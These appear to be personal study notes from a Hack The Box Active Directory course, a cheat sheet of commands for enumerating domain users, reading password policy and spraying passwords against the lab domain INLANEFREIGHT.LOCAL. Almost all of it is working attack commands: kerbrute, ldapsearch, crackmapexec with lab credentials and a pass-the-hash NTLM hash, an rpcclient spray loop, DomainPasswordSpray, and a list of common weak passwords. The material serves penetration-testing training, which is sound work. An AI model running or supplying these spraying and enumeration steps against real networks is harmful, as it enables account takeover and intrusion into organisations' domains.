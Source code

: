 ##### **Hunting for Users**

```shell-session
[!bash!]$ kerbrute userenum -d INLANEFREIGHT.LOCAL --dc 192.168.110.55 jsmith.txt -o valid_ad_users

Orbixio@htb[/htb]$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U

Orbixio@htb[/htb]$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

Orbixio@htb[/htb]$ crackmapexec smb 172.16.5.5 --users
Orbixio@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users

Orbixio@htb[/htb]$ enum4linux -U 192.168.110.55  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
```
##### Password Policy

```shell-session
$ crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
rpcclient $> getdompwinfo
$ enum4linux-ng -P 172.16.5.5
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

C:\htb> net accounts

PS C:\htb> import-module .\PowerView.ps1
PS C:\htb> Get-DomainPolicy
```
#### Spraying (Finally)

> [!NOTE] Weak Creds
> `Passw0rd`,`Welcome1`,`Winter2022`,`Password123`

```shell-session
$ for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

$ sudo crackmapexec smb 172.16.5.5 -u users.txt -p Password123 | grep +
```

> [!NOTE] Validating User Account
> Validate accounts using `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123`

> [!NOTE] Password Reuse
> `crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +`
> You can also try for password

```powershell-session
PS C:\htb> Import-Module .\DomainPasswordSpray.ps1
PS C:\htb> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue
```
**Note:** If we are authenticated to the domain, the tool will automatically generate a user list from Active Directory, query the domain password policy, and exclude user accounts within one attempt of locking out.